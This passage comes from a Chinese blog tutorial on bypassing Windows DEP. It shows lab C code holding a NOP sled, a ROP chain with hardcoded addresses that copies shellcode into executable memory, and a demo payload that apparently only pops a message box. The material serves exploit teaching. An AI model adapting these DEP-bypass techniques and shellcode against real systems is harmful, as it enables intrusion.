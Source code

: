 ```yaml
---
title: 攻击DEP的方法(下)——可执行内存、.Net、Java Applet
date: 2017-07-12 10:01:59
categories: 安全技术
tags: [DEP, windows, .Net, java]
---
```


### 1. 利用可执行内存

#### 1.1 实验代码

<pre><code>
#include &lt;stdlib.h&gt;
#include &lt;string.h&gt;
#include &lt;stdio.h&gt;
#include &lt;windows.h&gt;

char shellcode[] = 
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90"
	"\x8A\x17\x84\x7C"			// pop eax retn
	"\x0B\x1A\xBF\x7C"			// pop pop retn
	"\xBA\xD9\xBB\x7C"			// 修正EBP
	"\x5F\x78\xA6\x7C"			// pop retn
	"\x08\x00\x14\x00"			// 弹出机器码在可执行空间的起始地址，转入执行用
	"\x00\x00\x14\x00"			// 可执行内存空间地址，复制用
	"\xBF\x7D\xC9\x77"			// push esp jmp eax && 跳转至(pop pop retn地址)
	"\xFF\x00\x00\x00"			// shellcode 长度
	"\xAC\xAF\x94\x7C"			// memcpy入口
	"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
    "\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
    "\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
    "\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
    "\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
    "\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
    "\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
    "\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
    "\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
    "\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
    "\x53\xFF\x57\xFC\x53\xFF\x57\xF8";
